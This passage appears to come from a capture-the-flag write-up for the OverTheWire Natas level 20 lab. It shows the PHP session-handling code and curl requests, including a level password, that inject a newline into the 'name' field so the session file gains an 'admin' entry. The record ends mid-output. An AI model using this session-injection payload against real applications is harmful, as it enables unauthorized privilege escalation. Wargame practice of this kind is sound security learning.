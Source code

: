 ```
session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>
```


```
abs@MacBookPro OverTheWire % curl "natas20.natas.labs.overthewire.org/index.php?debug=1" -u natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw -F "name=admin" -i
Set-Cookie: PHPSESSID=v689v281vt6tlod6vmd0qetnug; path=/; HttpOnly
...
DEBUG: MYREAD v689v281vt6tlod6vmd0qetnug<br>DEBUG: Session file doesn't exist<br>DEBUG: Name set to admin<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
...
DEBUG: MYWRITE v689v281vt6tlod6vmd0qetnug name|s:5:"admin";<br>DEBUG: Saving in /var/lib/php/sessions/mysess_v689v281vt6tlod6vmd0qetnug<br>DEBUG: name => admin<br>%
```


```
abs@MacBookPro OverTheWire % curl "natas20.natas.labs.overthewire.org/index.php?debug=1" -u natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw  -d $'name=vandelay\nadmin 1' -H "Cookie: PHPSESSID=art"
<h1>natas20</h1>
<div id="content">
DEBUG: MYREAD art<br>DEBUG: Reading from /var/lib/php/sessions/mysess_art<br>DEBUG: Read []<br>DEBUG: Name set to vandelay
admin 1<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
...
DEBUG: MYWRITE art name|s:16:"vandelay
admin 1";<br>DEBUG: Saving in /var/lib/php/sessions/mysess_art<br>DEBUG: name => vandelay
admin 
```
